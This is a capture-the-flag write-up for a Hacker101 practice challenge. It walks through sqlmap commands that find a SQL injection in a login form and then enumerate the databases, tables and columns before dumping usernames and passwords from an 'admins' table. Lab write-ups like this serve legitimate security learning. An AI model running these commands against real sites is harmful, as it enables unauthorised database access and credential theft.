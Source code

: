 # Hacker101-CTF FLAG 2

We want to try and obtain the username and password to log in. In the previous flag, we noticed that we could get through without the username, but what about the password?

In this case, we already know that the input fields are susceptible to SQL Injection (SQLI). So, maybe we can exploit it using sqlmap.

First of all, I'm going to go ahead and try to obtain the databases if there is any vulnerability.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs
```

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

I'm getting this message:

[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

I'm going to try and increase the level value to 2.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2
```

Looks like I'm getting more juice this time!

[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y

I'm getting this message as well. I'm going to go ahead and try to exploit only the username field.

[INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

Finally got some results! I got all the databases. I'm going to take a look into the level2 database.

![sqlmap_databases](sqlmap_databases.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables
```

![sqlmap_tables](sqlmap_tables.png)

Let's get into the admins table and see its columns.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns
```

![sqlmap_columns](sqlmap_columns.png)

Now let's have a look at the usernames! Dump it!

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump
```
![sqlmap_usernames](sqlmap_usernames.png)

Now let's retrieve the password.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump
```

![sqlmap_password](sqlmap_password.png)

Now lets try log in. Got it! We have the last flag



